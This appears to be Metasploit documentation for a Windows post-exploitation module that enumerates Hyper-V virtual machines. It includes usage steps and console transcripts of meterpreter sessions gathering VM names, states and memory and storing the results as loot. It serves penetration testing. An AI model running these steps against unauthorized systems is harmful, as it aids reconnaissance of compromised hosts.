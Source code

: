 ## Vulnerable Application

  This post-exploitation module will check if a host is running Hyper-V. If the host is running Hyper-V, the module
  will gather information about all Hyper-V VMs installed on the host, including the name of the VM, its status,
  CPU usage, version of the Hyper-V engine that it relies on, and its state (running, suspended, offline, etc).

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_hyperv_vms`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. If the host has Hyper-V installed, a list of Hyper-V VMs which are on target host will be returned, along with their attributes.

## Options

This module just uses the standard options available to any post module.

## Extracted data

  - Name of each VM
  - State of each VM
  - CPU Usage of each VM
  - How long each VM has been running for, down to the milliseconds.
  - Amount of memory assigned to each VM
  - Status of each VM
  - The version of the Hyper-V engine that each VM is using.

## Scenarios

### Meterpreter session as a normal user on Windows Server 2019 Standard Edition - fails as user lacks required permissions

```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:33:16 -0500

meterpreter > getuid
Server username: RAPID7\normal
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeMachineAccountPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf6 post(windows/gather/enum_hyperv_vms) > show options

Module options (post/windows/gather/enum_hyperv_vms):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf6 post(windows/gather/enum_hyperv_vms) > set session 1
session => 1
msf6 post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[-] You need to be running as an elevated admin or a user of the Hyper-V Administrators group to run this module
[*] Post module execution completed
msf6 post(windows/gather/enum_hyperv_vms) > 
```

### Meterpreter session as an elevated admin user
```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:43:15 -0500

meterpreter > getuid
Server username: RAPID7\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf6 post(windows/gather/enum_hyperv_vms) > set SESSION 2 
SESSION => 2
msf6 post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[*] Name           State   CPUUsage(%) MemoryAssigned(M) Uptime           Status             Version
----           -----   ----------- ----------------- ------           ------             -------
Test Machine   Off     0           0                 00:00:00         Operating normally 9.0    
Windows XP SP3 Running 79          2048              02:54:58.3210000 Operating normally 9.0    

[+] Stored loot at /home/gwillcox/.msf4/loot/20200910184541_default_172.20.150.24_host.hyperv_vms_309544.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_hyperv_vms) > 
```
